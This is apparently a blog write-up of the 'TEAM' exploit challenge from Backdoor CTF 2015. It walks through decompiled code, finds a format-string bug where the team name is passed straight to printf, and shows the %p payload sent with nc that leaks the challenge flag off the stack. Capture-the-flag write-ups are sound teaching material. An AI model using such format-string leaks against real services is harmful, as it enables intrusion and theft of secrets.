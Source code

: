 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - TEAM Writeup"
date: 2015-04-03 03:16:39 +0430
comments: false
categories: ctf backdoor exploit fmt leak
---
```


**Backdoor 2015 TEAM Writeup**  
**Point = 600**  
**Category = Exploit**  

> There is a wierd kind of authentication service running: nc hack.bckdr.in 8004. The binary can be found here. The vampire says that there is no need for bruteforce.

```
$ file team
team: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=3fb6836dc9249bd1e7c33e023d563ff429d7dca4, stripped
$ checksec.sh --file team
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   team

```

Ok looking into the binary in IDA shows us two function `0x08048769` and `0x080486ad` are important to us. the first on can be seen bellow:
<!--more-->
```
int sub_8048769()
{
  const char *v0; // ST18_4@1
  const char *v1; // ST1C_4@1

  v0 = (const char *)malloc(0xC8u);
  v1 = (const char *)malloc(0x64u);
  printf("Enter teamname: ");
  fflush(stdout);
  __isoc99_scanf("%200s", v0);
  printf("Enter flag: ");
  fflush(stdout);
  __isoc99_scanf("%100s", v1);
  sleep(2u);
  sub_80486AD(v0, v1);
  free((void *)v0);
  free((void *)v1);
  return 0;
}
```
As you can see there is no potential flaw so we skip to second one:

```
signed int __cdecl sub_80486AD(const char *a1, const char *a2)
{
  signed int result; // eax@2
  int v3; // edx@7
  FILE *stream; // [sp+24h] [bp-74h]@1
  char s; // [sp+28h] [bp-70h]@3
  int v6; // [sp+8Ch] [bp-Ch]@1

  v6 = *MK_FP(__GS__, 20);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    fgets(&s, 100, stream);
    printf(a1);
    if ( !strcmp(&s, a2) )
      puts(" : correct flag!");
    else
      puts(" : incorrect flag. Try again.");
    fclose(stream);
    result = 0;
  }
  else
  {
    result = 1;
  }
  v3 = *MK_FP(__GS__, 20) ^ v6;
  return result;
}
```

interesting! in this function flag.txt will be opened and read but the important part is `printf(a1);`. remember previous function `a1` is the `v0` var which have the teamname! So there is a *Format String Vulnerability*. And the abuse is pretty simple, just printing the stack addresses to leak the flag:

```
$ cat 5
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
A

$ cat 5 | nc hack.bckdr.in 8004
Enter teamname: Enter flag: 0x640x9dd11400xf770ec20(nil)0x10x9dd10d80x9dd10080xf773855c0x9dd11400x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x626631370x80483000x1(nil)0x1(nil)(nil)0xff8b30880xf772b5000x10x5fc69000(nil)(nil)0xff8b3088 : incorrect flag. Try again.
```

you can see that 
```
0x356633640x643630310x376531390x323461370x383565620x636135300x613835640x643862310x313164610x383766610x356363660x313833660x666432630x363336350x353335390x62663137
```
is our flag. using python `struct` module for all gives us this one:

```
d3f5106d91e77a42be5805acd58a1b8dad11af78fcc5f381c2df5636953571fb
```

which added 600pts to our points.

HAMIDx9
